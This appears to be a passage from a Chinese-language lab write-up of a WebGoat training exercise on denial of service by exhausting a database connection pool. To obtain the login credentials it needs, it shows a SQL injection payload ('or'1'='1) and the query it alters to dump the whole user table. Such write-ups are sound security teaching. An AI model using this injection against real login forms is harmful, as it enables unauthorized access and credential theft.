 <img src="image/25.png" />

###  ﻿**Denial of Service **

> 实验原理：数据库连接总是要占用移动资源的，过度使用会影响系统性能。我们的目标网站允许多次登陆，但它有一个数据库的连接池，只能最大允许两个连接存在，因此我们必须要获得多个用户名和密码，分别登陆，使其超过允许的最大连接数，造成拒绝服务。

* 此次实验未给出需要的用户名及密码，根据之前所学SQL注入知识，发现进行查找操作时执行的sql语句是

```sql
SELECT * FROM user_system_data WHERE user_name = 'webgoat' and password = 'webgoat'
```

为了让其输入数据库中全部内容，语句应该为

```sql
SELECT * FROM user_system_data WHERE user_name = 'webgoat' and password = ''or'1'='1'
```

分析可得应输入

```sql
'or'1'='1
```
